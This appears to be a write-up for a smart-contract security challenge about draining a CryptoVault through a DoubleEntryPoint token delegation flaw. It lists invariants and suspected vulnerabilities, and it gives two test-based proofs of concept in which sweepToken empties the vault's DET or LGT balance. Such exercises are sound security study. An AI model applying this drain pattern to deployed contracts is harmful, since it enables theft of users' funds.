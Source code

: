 # Crypto Vault

## Invariants

1. `SweepTokens` allows tu recover stuck tokens
2. `Swaps ERC20` for `DET` if delegate.

## Target

- Protect `CryptoVault` from being drained.

## Potential Vulnerabilities

1. Malicious `DelegateERC20` can `swap` and `sweep` draining ilegitimately swept tokens previoulsy.

2. Anyone can damage `DoubleEntryPoint` if delegate:
   1. true: drain `DET`
   2. false: drain `LGT`

# 1 Vulnerability

**Proof of concept:**

# 2 Vulnerability

**Proof of concept:**

Anyone can drain to Vault's recipient address:

  <details>

   <summary> 1:Draining DET</summary>

```javascript
  function testDrainsDETWithDelegate() public {
      //Already delegated at setUp
      vault.sweepToken(lgt);

      uint256 vaultBalance = det.balanceOf(address(vault));

      assertEq(vaultBalance, 0);
  }
```

</details>

<details>
   <summary> 2: Draining LGT</summary>

```javascript
    function testDraisLGTwithoutDelegatge() public {
       //Remove Delegation
       vm.prank(owner);
       lgt.delegateToNewContract(DoubleEntryPoint(address(0)));

       vault.sweepToken(lgt);

       uint256 vaultBalance = lgt.balanceOf(address(vault));

       assertEq(vaultBalance, 0);
    }
```

</details>
